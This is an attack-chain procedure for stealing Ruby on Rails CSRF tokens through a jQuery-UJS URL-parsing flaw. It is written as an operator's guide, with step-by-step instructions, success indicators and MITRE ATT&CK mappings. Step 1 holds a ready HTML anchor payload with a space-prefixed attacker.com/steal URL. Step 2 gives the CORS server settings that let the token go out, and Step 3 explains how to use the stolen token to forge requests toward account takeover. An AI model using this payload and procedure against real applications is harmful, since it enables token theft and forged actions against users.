

# CSRF Token Theft via Malformed URL Prefix in jQuery-UJS

Multi-stage attack chain demonstrating a complete attack workflow exploiting weak URL parsing in jQuery-UJS to steal CSRF tokens and bypass CSP protections in Ruby on Rails applications.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- None (relies on HTML injection capabilities, e.g., via existing XSS)

### Target Environment

- Ruby on Rails application using jquery-ujs and jquery-rails
- Web platform with CSRF protection enabled
- CSP headers configured to block inline scripts

### Initial Access Requirements

- Ability to inject arbitrary HTML (e.g., via stored/reflected XSS)
- User session with valid CSRF token
- Attacker controls a domain with CORS headers allowing POST from target origin

## Detailed Attack Procedures

### Step 1: Inject Malformed HTML
procedure: [[procedures/Inject-Malformed-HTML-to-Control-Anchor-or-Form-Attributes]]

**Objective**: Inject HTML that controls href or action attributes in anchor or form tags to set up the malformed URL for token inclusion.

**Instructions**: Leverage an existing injection point (e.g., user input field reflected in HTML) to insert a malicious anchor tag like `<a href=" https://attacker.com/steal" data-remote="true" data-method="post">Click me</a>`. The space prefix tricks jQuery's regex into treating it as same-origin. Ensure the tag includes `data-remote` and `data-method="post"` to trigger AJAX POST.

**Expected Output**: The injected HTML renders on the page, visible to the user as a clickable link.

**Success Indicators**:
- Malformed HTML appears in the DOM without being sanitized
- No immediate errors from CSP blocking the injection

### Step 2: Trigger Remote POST Request
procedure: [[procedures/Trigger-Remote-POST-Request-via-User-Interaction]]

**Objective**: Induce the user to interact with the injected element, initiating a cross-origin POST that includes the CSRF token.

**Instructions**: The user clicks the injected link, which sends an OPTIONS preflight to `https://attacker.com`. Configure your server to respond with CORS headers like `Access-Control-Allow-Origin: *` and `Access-Control-Allow-Methods: POST`. jQuery-UJS then sends the POST to the space-prefixed URL, misparsing it as same-origin and attaching the CSRF token in the `X-CSRF-Token` header.

**Expected Output**: Browser network tab shows OPTIONS followed by POST to attacker domain, with CSRF token in headers.

**Success Indicators**:
- OPTIONS request succeeds with 200 OK and CORS headers
- POST request includes the token; verify via server logs

### Step 3: Receive and Use Stolen Token
procedure: [[procedures/Exfiltrate-CSRF-Token-to-Attacker-Domain]]

**Objective**: Capture the exfiltrated CSRF token and use it for further attacks like forging POST requests to the target site.

**Instructions**: On the attacker server, log the incoming POST payload and extract the `X-CSRF-Token` value. With the token, craft authenticated requests to the Rails app, such as changing user settings or performing actions requiring CSRF validation.

**Expected Output**: Server receives POST with token; subsequent requests using the token succeed without CSRF errors on target.

**Success Indicators**:
- Token received and validated (e.g., 32-character hex string)
- Forged POST to target succeeds, confirming token validity

## Attack Chain Summary

### Key Achievements

1. Bypassed CSP by avoiding inline JS, using framework's own AJAX
2. Stole session-specific CSRF token without direct cookie access
3. Enabled full CSRF attacks on Rails app, potentially leading to account takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript
- [[Exfiltration to Cloud Storage]] Exfiltration Over Web Service

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Collection]] Collection

---
*Last updated: 2023-10-01T00:00:00Z*
